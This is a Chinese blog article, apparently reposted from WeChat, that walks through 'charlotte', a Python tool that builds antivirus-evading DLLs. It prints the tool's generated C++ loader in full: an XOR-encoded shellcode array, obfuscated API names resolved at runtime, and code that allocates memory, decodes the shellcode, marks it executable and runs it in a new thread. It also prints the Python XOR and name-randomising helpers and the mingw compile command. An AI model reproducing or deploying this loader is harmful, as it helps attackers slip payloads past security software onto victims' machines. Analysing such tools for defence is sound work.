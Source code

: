 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Cm5EuxgmWkKmmCeb3zyBYA)

**前言**

 **多看看别人的工具，自己也就会写了。（手动狗头）**

charlotte 是一款 Python 编写的自动化免杀工具，用来生成免杀的 dll 文件，在 antiscan.me 上为全绿，效果可见一斑。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VcSwzRNFWkmicyTppCaLpm76ucTC3cdjLDAozkgvoaiaL4pPcas6iaS3lToUVF1icASvMIFsoHMibpXVQ/640?wx_fmt=png)

官方地址如下; https://github.com/9emin1/charlotte，其依赖 mingw-w64 环境，可使用下面的命令安装：

```
apt-get install mingw-w64*
```

利用动态导出以及 xor 编码实现了对杀软的绕过。其文件很简单，只有一个简单的 py 文件以及一个 cpp 文件，根据以后以往的经验来看，大概率是通过 py 操作 cpp，然后使用 mingw 去编译为 dll 文件。

找到移除代码并将其注释掉，这样可以方便我们进行分析。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VcSwzRNFWkmicyTppCaLpm72UouU4oWhOQnicib8hpcHfdZn96SrJVmAJyU9OKMsnSUI9AhhaPcJd7Q/640?wx_fmt=png)

此时运行程序，生成的 cpp 文件便可以拿来进行分析了。

```
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#pragma comment (lib, "user32.lib")

unsigned char JCDlUYUy[] = { 0x8f, 0x31, 0xce, 0x82, 0x93, 0xa0, 0xa3, 0x66, 0x69, 0x6a, 0x32, 0x22, 0x38, 0x1d, 0x34, 0x32, 0x1e, 0x2b, 0x57, 0xbb, 0xf, 0x3b, 0xf8, 0x2b, 0x2d, 0x2e, 0xe8, 0x1a, 0x7b, 0x2e, 0xe2, 0x38, 0x53, 0x3b, 0xf2, 0x3f, 0x36, 0x2b, 0x47, 0xd4, 0x2c, 0x23, 0x27, 0x42, 0xba, 0x31, 0x7c, 0xa6, 0xcf, 0x74, 0x2, 0x1a, 0x6b, 0x46, 0x53, 0x32, 0xb8, 0x84, 0x6b, 0x22, 0x49, 0xa2, 0x84, 0x84, 0x38, 0x32, 0x22, 0x31, 0xc6, 0x34, 0x43, 0xc3, 0x21, 0x5a, 0x21, 0x6b, 0xa3, 0xf8, 0xf9, 0xc5, 0x66, 0x63, 0x48, 0x2b, 0xe3, 0xa9, 0x1e, 0x14, 0x3b, 0x78, 0x9d, 0x36, 0xe8, 0x0, 0x7b, 0x22, 0xe2, 0x2a, 0x53, 0x3a, 0x78, 0x9d, 0x85, 0x35, 0x0, 0x9c, 0xaf, 0x28, 0xe1, 0x47, 0xfb, 0x31, 0x4c, 0xb0, 0x2e, 0x79, 0xaa, 0x2e, 0x58, 0xaa, 0xdf, 0x32, 0xb8, 0x84, 0x6b, 0x22, 0x49, 0xa2, 0x5e, 0x89, 0x1f, 0x82, 0x3f, 0x7a, 0x1, 0x42, 0x6b, 0xd, 0x5a, 0xb7, 0x1c, 0xb2, 0x2b, 0x37, 0xf2, 0xd, 0x42, 0x2a, 0x49, 0xb3, 0x0, 0x28, 0xe1, 0x7f, 0x3b, 0x3d, 0xc6, 0x26, 0x7f, 0x1, 0x62, 0xb6, 0x28, 0xe1, 0x77, 0xfb, 0x31, 0x4c, 0xb6, 0x22, 0x10, 0x22, 0x3e, 0x37, 0x33, 0x29, 0x32, 0x21, 0xc, 0x3f, 0x22, 0x12, 0x2b, 0xe5, 0x85, 0x4a, 0x32, 0x21, 0x86, 0xad, 0x3e, 0x22, 0x11, 0x39, 0x2e, 0xe2, 0x78, 0x9a, 0x24, 0x86, 0xb2, 0x99, 0x3e, 0x0, 0xd9, 0x67, 0x69, 0x6a, 0x73, 0x73, 0x79, 0x4d, 0x66, 0x2b, 0xc5, 0xee, 0x67, 0x68, 0x6a, 0x73, 0x32, 0xc3, 0x7c, 0xed, 0xc, 0xcf, 0x9c, 0xb3, 0xd2, 0x9a, 0xc6, 0xd1, 0x2f, 0xc, 0xdc, 0xc5, 0xdd, 0xde, 0xfb, 0x96, 0xbf, 0x3b, 0xf0, 0xbd, 0x65, 0x5a, 0x65, 0x34, 0x69, 0xe6, 0x92, 0x8a, 0x6, 0x76, 0xc2, 0xa, 0x75, 0x11, 0x27, 0x9, 0x66, 0x30, 0x2b, 0xfa, 0xa9, 0x86, 0x98, 0x5, 0x2, 0x24, 0x0, 0x48, 0xc, 0x12, 0x16, 0x73 };
unsigned char eZoBiJrv[] = { 0x1d, 0x13, 0x8, 0x39, 0x27, 0x22, 0x6, 0x33, 0x2b, 0x29, 0x1f, 0x3b };
unsigned char flRsMjXxEqUg[] = { 0x7, 0x2e, 0x30, 0x37, 0x30, 0x35, 0xd, 0x3a, 0x30, 0x15, 0x13, 0x34, 0x24, 0x36 };
unsigned char UNvUUdosORtP[] = { 0x5, 0x22, 0x33, 0x4, 0x7, 0xd, 0x3d, 0x10, 0x25, 0x23, 0x31, 0x32 };
unsigned char ATBDYquVpQsA[] = { 0x3, 0x2b, 0x2, 0x24, 0x3e, 0x24, 0x1f, 0x3b, 0x2d, 0x1a, 0x2, 0x38, 0x2f, 0x24, 0x32, 0x12, 0x2e, 0xe, 0x1c };

unsigned int nRhWSUlMCH = sizeof(JCDlUYUy);
unsigned int QWcvhCDTV = sizeof(eZoBiJrv);
unsigned int EmlCIxyIVtZMB = sizeof(flRsMjXxEqUg);
unsigned int KrStpnMvdV = sizeof(UNvUUdosORtP);
unsigned int vpbJEJvZMwA = sizeof(ATBDYquVpQsA);

char OyFWAUEjbtSFRHn[] = "syMfcHcfijs";
char lnqWuuargPhxKMP[] = "KzzMRCjrGEpXt";
char ecNUArKcaf[] = "QGBCETajBzg";
char vsAmIjjJogRteUG[] = "FPVeshixW";
char BoQhJpMzQmTDnGO[] = "TJkPxKmhDte";

LPVOID (WINAPI * xUgwJldYot)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
BOOL (WINAPI * OVpMScQZe)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
HANDLE (WINAPI * GDqHQLdymeGF)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, __drv_aliasesMem LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
DWORD (WINAPI * AMFrDPRFDB)(HANDLE hHandle, DWORD dwMilliseconds);

void bZmKQfetGTGMibw(char * data, size_t data_len, char * key, size_t key_len) {
        int j;
        
        j = 0;
        for (int i = 0; i < data_len; i++) {
                if (j == key_len - 1) j = 0;

                data[i] = data[i] ^ key[j];
                j++;
        }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}

extern "C" {
__declspec(dllexport) BOOL WINAPI EUywcFyggt(void) {
  
  void * Lotjdjcv;
  BOOL icOQGcPfg;
  HANDLE PXGxcviMnUbGp;
      DWORD RqwSapwJJnUpb = 0;

        bZmKQfetGTGMibw((char *) eZoBiJrv, QWcvhCDTV, lnqWuuargPhxKMP, sizeof(lnqWuuargPhxKMP));

  xUgwJldYot = GetProcAddress(GetModuleHandle("kernel32.dll"), eZoBiJrv);
  Lotjdjcv = xUgwJldYot(0, nRhWSUlMCH, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  
  bZmKQfetGTGMibw((char *) JCDlUYUy, nRhWSUlMCH, OyFWAUEjbtSFRHn, sizeof(OyFWAUEjbtSFRHn));
  
  RtlMoveMemory(Lotjdjcv, JCDlUYUy, nRhWSUlMCH);
  
        bZmKQfetGTGMibw((char *) flRsMjXxEqUg, EmlCIxyIVtZMB, ecNUArKcaf, sizeof(ecNUArKcaf));

  OVpMScQZe = GetProcAddress(GetModuleHandle("kernel32.dll"), flRsMjXxEqUg);
  icOQGcPfg = OVpMScQZe(Lotjdjcv, nRhWSUlMCH, PAGE_EXECUTE_READ, &RqwSapwJJnUpb);

  // If all good, launch the payload
  if ( icOQGcPfg != 0 ) {
            bZmKQfetGTGMibw((char *) UNvUUdosORtP, KrStpnMvdV, vsAmIjjJogRteUG, sizeof(vsAmIjjJogRteUG));
            GDqHQLdymeGF = GetProcAddress(GetModuleHandle("kernel32.dll"), UNvUUdosORtP);
      PXGxcviMnUbGp = GDqHQLdymeGF(0, 0, (LPTHREAD_START_ROUTINE) Lotjdjcv, 0, 0, 0);
            bZmKQfetGTGMibw((char *) ATBDYquVpQsA, vpbJEJvZMwA, BoQhJpMzQmTDnGO, sizeof(BoQhJpMzQmTDnGO));
      AMFrDPRFDB = GetProcAddress(GetModuleHandle("kernel32.dll"), ATBDYquVpQsA);
      AMFrDPRFDB(PXGxcviMnUbGp, -1);
  }
  return TRUE;
  }
}
```

其中的 calc_payload[] 为我们的 shellcode，后面的则是随机生成的 key 和函数名，然后使用动态导出的方法来获取函数，原代码如下：

```
BOOL (WINAPI * pVirtualProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
XOR((char *) virtual_protect, vp_len, vp_key, sizeof(vp_key));

  pVirtualProtect = GetProcAddress(GetModuleHandle("kernel32.dll"), virtual_protect);
  rvba = pVirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);
```

而这些实现，则是用的 py 实现，获取随机字符串

```
def get_random_string():
    # With combination of lower and upper case
    length = random.randint(8, 15)
    result_str = ''.join(random.choice(string.ascii_letters) for i in range(length))
    # print random string
    return result_str
```

xor 函数

```
def xor(data):
    
    key = get_random_string()
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        o = lambda x: x if isinstance(x, int) else ord(x) # handle data being bytes not string
        output_str += chr(o(current) ^ ord(current_key))

    ciphertext = '{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in output_str) + ' };'
    return ciphertext, key
```

剩下的就是一个替换了，最后使用 ming-w 去编译 dll

```
os.system("x86_64-w64-mingw32-g++ -shared -o charlotte.dll charlotte.cpp -fpermissive >/dev/null 2>&1")
```

**总结：工具技术均为常见技术，结合起来则出了不错的效果，当然 dll 的选择也是一个很好的点，参考之前生成 service exe 的工具。**

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)